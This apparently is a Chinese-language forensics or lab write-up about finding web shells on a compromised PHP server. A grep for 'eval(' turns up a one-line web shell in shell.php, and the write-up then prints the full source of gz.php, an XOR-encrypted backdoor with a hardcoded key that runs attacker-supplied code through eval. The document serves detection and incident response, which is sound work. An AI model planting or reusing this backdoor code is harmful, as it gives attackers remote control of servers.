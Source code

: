 一个一个进行尝试即可：
这里使用：

```php
find ./ type f -name "*.php" | xargs grep "eval(" 
```

发现了三个文件：

```php
./var/www/html/include/gz.php:          eval($payload);
./var/www/html/include/Db/.Mysqli.php:          eval($payload);
./var/www/html/shell.php:<?php phpinfo();@eval($_REQUEST[1]);?>
```

![[Pasted image 20250319203939.png]]
打开gz.php文件

```php
root@ip-10-0-10-5:/# cd /var/www/html/include
root@ip-10-0-10-5:/var/www/html/include# ls
common.php  Db  default.htm  gz.php  index.htm  index.html  Model
root@ip-10-0-10-5:/var/www/html/include# cat gz.php
```

最后终于在gz.php里面发现了，这样一段代码：

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
//027ccd04-5065-48b6-a32d-77c704a5e26d
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```
